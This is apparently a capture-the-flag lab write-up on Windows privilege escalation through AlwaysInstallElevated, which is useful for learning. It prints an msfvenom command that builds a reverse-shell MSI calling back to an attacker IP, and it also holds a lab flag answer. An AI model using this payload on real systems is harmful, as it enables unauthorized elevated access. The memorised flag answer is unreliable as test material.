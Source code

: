 Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

**Note**: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

![task4-query](./images/task4-query.png)

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

![task4-malicious](./images/task4-malicious.png)

### Answer the questions below

* What is the taskusr1 flag?

	`THM{TASK_COMPLETED}`

	On target cmd.exe windows

	![task4-schtask](./images/task5-schtask.png)

	On our machine
	